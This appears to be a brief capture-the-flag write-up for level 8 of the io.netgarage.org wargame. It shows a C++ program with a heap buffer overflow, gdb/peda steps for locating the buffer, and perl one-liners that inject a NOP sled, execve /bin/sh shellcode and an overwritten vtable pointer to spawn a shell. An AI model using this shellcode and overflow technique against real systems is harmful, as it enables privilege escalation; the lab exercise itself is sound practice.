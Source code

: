 // writen by bla for io.netgarage.org
#include <iostream>
#include <cstring>
#include <unistd.h>

class Number
{
        public:
                Number(int x) : number(x) {}
                void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));} // <== buffer overflow here
                virtual int operator+(Number &r) {return number + r.number;}
        private:
                char annotation[100];
                int number;
};


int main(int argc, char **argv)
{
        if(argc < 2) _exit(1);

        Number *x = new Number(5);
        Number *y = new Number(6);
        Number &five = *x, &six = *y;

        five.setAnnotation(argv[1]);

        return six + five;
}

local 

to download binary:
scp level8@io.netgarage.org:/levels/level08 /tmp/level08

to determine address of address of buffer:
env - /tmp/level08
env - gdb -q /tmp/level08
source /usr/local/peda/peda.py
r $(perl -e 'print "\x90"x(108-24) . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" . pack(l,0x42424242)')

EAX: 0x42424242 ('BBBB')
=> 0x8048726 <main+146>:        mov    edx,DWORD PTR [eax] <== it movs whats address in eax holds

[------------------------------------stack-------------------------------------]
[eax] >>>> 0xbffffd80 <<<< --> 0x804ea10 --> 0x80488c8 --> 0x80487e2 (<_ZN6NumberplERS_>:push   ebp)
0004| 0xbffffd84 --> 0xbfffff4e --> 0x90909090 
0008| 0xbffffd88 --> 0xbffffdb8 --> 0x0 


then paste address of address of buffer
r $(perl -e 'print "\x90"x(108-24) . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" . pack(l,0xbffffd84)')

process 381 is executing new program: /bin/bash


remote

the same principle 
env - /levels/level08 $(perl -e 'print "\x90"x(108-30) . "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80" . pack(l,0xbffffd90)')

